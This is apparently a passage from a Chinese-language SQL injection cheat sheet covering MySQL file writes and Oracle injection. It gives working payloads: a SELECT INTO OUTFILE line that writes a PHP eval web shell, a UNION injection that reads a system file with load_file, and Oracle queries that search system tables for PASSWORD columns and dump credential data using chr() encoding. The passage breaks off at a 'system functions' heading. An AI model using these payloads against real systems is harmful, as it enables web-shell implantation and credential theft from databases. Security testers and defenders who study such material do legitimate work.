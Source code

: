##### 写文件

前提条件 

* 目标目录要有可写权限
* 当前数据库用户要有FILE权限
* 目标文件不能已存在
* `secure\_file\_priv`的值为空
*  路径完整

`SELECT...INTO OUTFILE`

```
SELECT <?php @eval($_POST['sb'])?> INTO OUTFILE ".........";           //outfile后的文件路径不能用十六进制或配合char()来实现，只能用引号这种形式
?id=-1' UNION SELECT 1,2,(select load_file('c:\\boot.ini')）INTO OUTFILE "c:\\test\\aaa.txt"--+
```


## ORACLE

#### 类型判断

`||` oracle中独有的链接符号

#### 系统表

`user_tab_columns` 本用户的表,视图等

`all_tab_columns` 所有用户的表,视图等

`all_tables` 所有用户的表

`user_tables` 本用户的表

`table_name` 系统里的表名

`column_name` 系统里存在的列名

这里也有个小技巧 我们可以通过查询系统表来找找敏感字段如`PASSWORD`在哪些表中(**列名要用大写表示**)

`select count(*) from user_tab_columns where column_name like '%25PASSWORD%25'`

查询包含`PASSWORD`的表中的任意1个表==>`limit=2`

`select chr(126)||chr(39)||data||chr(39)||chr(126) from (select rownum as limit,table_name||chr(35)||column_name as data from user_tab_columns where column_name like '%PASSWORD%') where limit =2`

获取列名

`select chr(126)||chr(39)||data||chr(39)||chr(126) from (selEct rownum as limit,column_name as data from user_tab_columns whEre table_name=chr(70)||chr(71)||chr(87)||chr(49)||chr(48)||chr(49)||chr(84)) whEre limit =1`

获取内容

`Select chr(126)||chr(39)||data||chr(39)||chr(126) from (selEct rownum as limit,PASSWORD||chr(35)||id||chr(35)||PASSWORD||chr(35)||NAME||chr(35)||IN_DATE||chr(35)||UP_DATE as data from FGW101T`

#### 系统函数
